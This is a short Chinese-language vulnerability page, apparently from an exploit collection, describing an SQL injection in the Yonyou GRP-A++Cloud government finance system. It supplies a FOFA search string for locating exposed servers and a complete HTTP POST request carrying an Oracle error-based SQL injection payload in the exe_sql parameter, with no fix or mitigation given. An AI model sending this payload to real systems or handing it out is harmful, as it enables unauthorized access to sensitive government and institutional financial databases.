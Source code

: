 # 用友GRP-A-Cloud政府财务云系统接口selectGlaDatasourcePreview存在SQL注入漏洞

用友政务软件有限公司由用友（集团）和中国财政科学研究院共同设立，是面向政府部门、事业单位、非营利组织的全方位业务管理信息化解决方案提供商，是中国电子政务百强企业、中国领先的公共财政管理软件提供商、中国领先的行政事业单位计划财务管理软件提供商。公司的业务涵盖财政、银行、税务、社保、民生、公安、交通、海关、国土资源等行业。用友GRP A++Cloud政府财务云exe_sql存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

## fofa

```yaml
body="/pf/portal/login/css/fonts/style.css"
```


## poc

```yaml
POST /gla/dataSource/selectGlaDatasourcePreview HTTP/1.1
Host: {hostname}
Content-Length: 279
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

exe_sql=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(113)||CHR(122)||CHR(107)||CHR(106)||CHR(113)||(SELECT (CASE WHEN (2867=2867) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(98)||CHR(118)||CHR(107)||CHR(113)||CHR(62))) FROM DUAL)&pageNumber=1&pageSize=10&exe_param=11,1,11,1,11,1
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407171258885.png)
